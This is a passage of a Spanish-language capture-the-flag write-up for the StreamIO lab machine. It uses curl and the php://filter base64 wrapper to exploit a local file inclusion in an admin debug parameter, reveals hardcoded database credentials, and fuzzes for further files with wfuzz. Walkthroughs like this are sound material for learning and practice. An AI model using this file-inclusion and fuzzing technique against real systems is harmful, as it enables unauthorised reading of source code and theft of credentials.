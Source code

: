 ```
└─$ curl -sk 'https://streamio.htb/admin/index.php?debug=C:\inetpub\wwwroot\streamio\index.php' -H "Cookie: PHPSESSID=uegigt0qmv7n8d2432kfb0o0g7" | html2text | grep -v "^$"
```
Sabemos que la estructura de la web principal es tal que:
```
                              [streamio.htb]
  ┏━━━━━━━━━━━━━━┳━━━━━━━━━━━━━┳━━━━━┻━━━━━━┳━━━━━━━━━━━━┳━━━━━━━━━━━━━━━┳━━━━━━━━━━━┓
index.php    contact.php   about.php    login.php    register.php    logout.php     admin
                                                                              ┏━━━━━━┻━━━━━━┓
                                                                          index.php    master.php

                             [watch.streamio.htb]
                                ┏━━━━━┻━━━━━━┓
                          index.php      search.php
```
Si buscamos la principal `index.php` nos sale un error, eso es porque un recurso PHP entra en bucle si se carga a si
mismo, por tanto utilizaremos el wrapper de codificacion en base64, para que salga una cadena codificada que 
no se interprete y por tanto entre en conflicto
```bash
└─$ curl -sk 'https://streamio.htb/admin/index.php?debug=index.php' -H "Cookie: PHPSESSID=uegigt0qmv7n8d2432kfb0o0g7" \
| html2text | grep -v "^$" | grep "developers" -A "5"
     this option is for developers only ---- ERROR ----
```              
Con ciertos filtros podemos encontrar el codigo en base64, descifrarlo
```bash
└─$ curl -s 'https://streamio.htb/admin/?debug=php://filter/convert.base64-encode/resource=Index.php' -k \
-H "Cookie: PHPSESSID=uegigt0qmv7n8d2432kfb0o0g7" | html2text | grep -v "^$" | grep "only" -A 2 | tr -d "/\n " | \
sed s/only//g | base64 -d 2>/dev/null | sed -n '/^<?php/,/^?>/p'
<?php
define('included',true);
session_start();
if(!isset($_SESSION['admin']))
{
  header('HTTP/1.1 403 Forbidden');
  die("<h1>FORBIDDEN</h1>");
}
$connection = array("Database"=>"STREAMIO", "UID" => "db_admin", "PWD" => 'B1@hx31234567890');
$handle = sqlsrv_connect('(local)',$connection);
?>
```

Conseguimos una contraseña, ¿pero que recursos mas podemos ver?
```bash
└─$ curl -s 'https://streamio.htb/admin/?debug=noexisto.php' -k -H "Cookie: PHPSESSID=uegigt0qmv7n8d2432kfb0o0g7" | wc -c
1712

└─$ wfuzz --hc=404 --hh=1712 -H "Cookie: PHPSESSID=uegigt0qmv7n8d2432kfb0o0g7" -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt 'https://streamio.htb/admin/?debug=FUZZ.php'
000000001:   200        46 L     136 W      1693 Ch     "index"
000002560:   200        11158    26706 W    342677 Ch   "master"
```
Por tanto repetimos el proceso con master.php, la parte de decodificar la tuve que hacer a mano porque daba errores,
fui al codigo fuente de la pagina y copie el texto en base64 a un archivo para decodificarlo con `base64 -d`
```bash
└─$ cat base64text | base64 -d | sed -n '/^<?php/,/^?>/p' > master.php
```
Si compactamos el codigo...
```php
```
